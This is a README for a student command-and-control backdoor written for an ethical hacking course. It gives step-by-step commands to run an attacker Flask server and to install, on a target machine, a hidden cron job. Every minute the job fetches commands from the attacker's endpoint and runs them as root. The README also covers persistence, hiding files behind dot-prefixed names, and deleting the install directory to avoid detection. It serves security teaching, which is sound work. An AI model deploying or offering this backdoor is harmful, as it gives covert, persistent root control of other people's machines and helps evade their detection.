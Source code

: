# Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    cd server
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be generated and stored in the `server` directory

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Create a `commands.txt` file and fill it with commands to run on the target machine. Each command should be on a new line.

    ```bash
    echo $'pwd\nwhoami\nls' > commands.txt
    ```
4. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP} # server should be reachable from target machine
    # Example: flask run --host=10.0.2.4
    ```


### Target Machine

1. Download the backdoor repo

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    ```
2. From the **attacker machine**, manually copy the contents of public key (`public.pem`) to the `/client` directory on the **target machine**. The new public key should also be named `public.pem`.
    
3. Run the setup script

    ```bash
    cd Command-Control-main/client
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```
4. Done!

    The cronjob will start running every minute. It will call your server endpoint for commands and execute them as root. If you want to view the results,
    you can check the `.cronlog.txt` file in the `/var/spool/cron` directory on the **target machine**:
    
    ```bash
    cat /var/spool/cron/.cronlog.txt
    ```
    
    Additionally, you may delete the `Command-Control-main` directory to avoid detection on the target machine.



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server returns a signature and the commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is forwarded to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re-executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot, and this backdoor will persist automatically because cron jobs are run on boot by default.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip, port, and endpoint that the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users (typically)
    - All cron related files are hidden by a period in front of the file name to hide from simple `ls` commands

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.
